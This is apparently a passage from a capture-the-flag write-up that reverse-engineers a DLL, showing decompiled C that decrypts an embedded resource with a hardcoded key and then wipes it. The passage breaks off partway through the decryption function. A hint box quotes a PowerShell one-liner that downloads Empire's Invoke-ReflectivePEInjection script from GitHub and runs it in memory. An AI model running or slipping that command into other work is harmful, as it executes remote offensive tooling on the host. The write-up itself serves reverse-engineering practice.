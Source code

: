 ```c
  Size = SizeofResource(hModule, hResInfo);
  v1[0] = -895753913;
  v1[1] = 1075939289;
  v1[2] = 337223077;
  v1[3] = 1841767532;
  v1[4] = -2090762614;
  v1[5] = 1302241797;
  v1[6] = 1719303951;
  v1[7] = 154158018;
  v6 = 32;
  Block = malloc(Size);
  sub_6EB41648(v8, Size, v1, 32, Block);
  v4 = Block;
  v3 = Size;
  v2 = (char *)Block;
  while ( v3 )
  {
    v0 = v2++;
    *v0 = 0;
    --v3;
  }
  free(Block);
}
```

Now we know that the Run function literally do nothing. Even the notepad. But we do see the target text taht we want whihc is Bazinga FLAG! Maybe we just need to run VoidFunc?

{% hint style="warning" %}
Spoiler Alert, no flag will be displayed. Can read the pseudocode by yourself. There no flag variable. Even with invoking it with PowerSploit’s Invoke-ReflectivePEInjection.ps1. Heres the script: iex(New-Object net.webclient).downloadstring('https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module\_source/management/Invoke-ReflectivePEInjection.ps1');
{% endhint %}

But there is the flag here and I can promise it. We can take a look at the Windows API that has been called. Lemme grab the definition from MSDN. If you read it slowly and carefully, you can know what the dll is doing.

* FindResourceA: Determines the location of a resource with the specified type and name in the specified module.
* LoadResources: Retrieves a handle that can be used to obtain a pointer to the first byte of the specified resource in memory.
* LockResources: Retrieves a pointer to the specified resource in memory.
* SizeofResource: Retrieves the size, in bytes, of the specified resource.
* malloc: Allocates memory blocks.
* free: Deallocates or frees a memory block.

There is another function that we may want to look at. for summary, sub\_6EB41648: A custom function that performs decryption using the hardcoded
&#x20;key.

```c
unsigned int __cdecl sub_6EB41648(int a1, unsigned int a2, int a3, int a4, int a5)
{
  unsigned int result; // eax
  int v6; // [esp+Ch] [ebp-110h] BYREF
  int v7; // [esp+10h] [ebp-10Ch] BYREF
  _BYTE v8[256]; // [esp+17h] [ebp-105h] BYREF
  char v9; // [esp+117h] [ebp-5h]
  unsigned int i; // [esp+118h] [ebp-4h]

  v7 = 0;
  v6 = 0;
  sub_6EB414D0(a3, a4, v8);
  for ( i = 0; ; ++i )
```